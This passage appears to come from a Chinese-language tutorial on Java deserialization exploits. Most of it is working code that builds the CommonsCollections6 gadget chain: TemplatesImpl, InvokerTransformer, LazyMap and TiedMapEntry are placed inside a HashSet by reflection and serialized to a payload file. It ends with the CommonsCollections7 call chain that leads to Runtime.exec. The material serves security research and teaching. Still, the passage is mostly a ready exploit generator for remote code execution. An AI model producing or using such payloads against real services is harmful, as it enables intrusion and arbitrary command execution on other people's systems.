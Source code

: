 ```
        name.set(tmp,"tr1ple");
        //封装一层Transformer
        InvokerTransformer trans = new InvokerTransformer("newTransformer",new Class[0],new Object[0]);
        ////InvokerTransformer trans = new InvokerTransformer("getOutputProperties",new Class[0],new Object[0]);
        //将templatesImpl实例放进TiedmapEntry外层作为key
        HashMap innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, trans);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, tmp);
        innerMap.clear();
        //构造外部入口点
        HashSet newSet = new HashSet(1);
        newSet.add("tr1ple");
        Field innerSetMap  = HashSet.class.getDeclaredField("map");
        innerSetMap.setAccessible(true);
        //修改hashset内部的hashmap存储
        HashMap setMap = (HashMap)innerSetMap.get(newSet);
        Field table = HashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        //拿到存储的数据
        Object[] obj = (Object[])table.get(setMap);
        Object node  = obj[0];
        System.out.println(node.getClass().getName());
        //拿到此时存到hashset中的node节点，key为要修改的点，这里需要修改它为真正的payload，即Tiedmapentry
        System.out.println(node.toString());
        Field key = node.getClass().getDeclaredField("key");
        key.setAccessible(true);
        key.set(node,entry);
        //hashset的hashmap中的node节点修改完值以后放进hashset
        Field finalMap = newSet.getClass().getDeclaredField("map");
        finalMap.setAccessible(true);
        finalMap.set(newSet,setMap);
        //序列化
        File file;
        file = new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections6-2.ser");
        ObjectOutputStream objOut = new ObjectOutputStream(new FileOutputStream(file));
        objOut.writeObject(newSet);
    `}`
`}`
```



### <a class="reference-link" name="CommonsCollections7"></a>CommonsCollections7

反序列化调用链如下所示：

```
Hashtable.readObject
       Hashtable.reconstitutionPut
            AbstractMapDecorator.equals
                AbstractMap.equals
                    LazyMap.get
                       ChainedTransformer.transform
                           InvokerTransformer.transform
                                Runtime.exec
```

